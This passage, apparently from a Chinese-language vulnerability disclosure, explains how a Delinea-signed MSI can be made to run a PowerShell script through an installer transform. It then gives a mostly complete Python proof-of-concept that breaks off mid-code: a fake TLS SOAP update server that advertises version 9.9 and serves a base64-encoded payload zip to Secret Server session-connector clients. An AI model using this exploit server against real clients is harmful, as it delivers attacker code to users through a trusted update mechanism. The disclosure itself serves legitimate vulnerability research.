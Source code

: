   
这会导致 msiexec 搜索并将转换应用于已签名的 MSI，从而影响其运行时的行为。例如，AdvancedInstaller 工具用于创建一个转换，该转换在执行 MSI 时运行一个简单的 PowerShell 脚本。  
  
以下概念验证可通过适当的 TLS 证书进行托管。请注意，zip 内容必须包含由 Delinea 签名的 MSI 文件 - 出于演示目的，SSSessionConnector 安装程序（  
https://updates.thycotic.net/secretserver/tools/SSSessionConnector.zip）被重命名并使用，因为它的大小相对较小。  
  
```
from http.server import BaseHTTPRequestHandler, HTTPServer
import ssl
import logging
import base64

class SimpleSOAPHandler(BaseHTTPRequestHandler):
    def _set_headers(self, content_type="text/xml"):
        self.send_response(200)
        self.send_header('Content-type', content_type)
        self.end_headers()

    def do_GET(self):
        logging.info("GET request received. Path: %s", self.path)
        self._set_headers()
        self.wfile.write(b"GET request processed.")

    def do_POST(self):
        content_length = int(self.headers['Content-Length']) # Get the size of data
        post_data = self.rfile.read(content_length) # Read the data
        logging.info("POST request received. Path: %s", self.path)
        logging.info("POST request body:\n%s", post_data.decode('utf-8'))


        print("Reading in zip file")
        zip_file= open("payload.zip","rb")
        zip_data_binary = zip_file.read()
        zip_data = (base64.b64encode(zip_data_binary)).decode('ascii')
        # Check if the post_data matches the expected SOAP request
        if b"GetCurrentProtocolHandlerVersion" in post_data:
         response = '''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">  <soap:Body>    <GetCurrentProtocolHandlerVersionResponse xmlns="urn:thesecretserver.com">      <GetCurrentProtocolHandlerVersionResult>9.9</GetCurrentProtocolHandlerVersionResult>    </GetCurrentProtocolHandlerVersionResponse>  </soap:Body></soap:Envelope>'''
         self._set_headers()
         self.wfile.write(response.encode('utf-8'))
        elif b"GetNewVersion" in post_data:
         print("New version requested")
         response = '''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">  <soap:Body>    <GetNewVersionResponse xmlns="urn:thesecretserver.com">      <GetNewVersionResult>''' + zip_data + '''</GetNewVersionResult>    </GetNewVersionResponse>  </soap:Body></soap:Envelope>'''
         #print("Sending response: " + response)
         self._set_headers()
         self.wfile.write(response.encode('utf-8'))
        else:
         self.send_response(400) # Bad request
         self.end_headers()

def run(server_class=HTTPServer, handler_class=SimpleSOAPHandler, port=443, cert_file="fullchain.pem", key_file="privkey.pem"):
    logging.basicConfig(level=logging.INFO)
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)

    # SSL configuration using SSLContext
```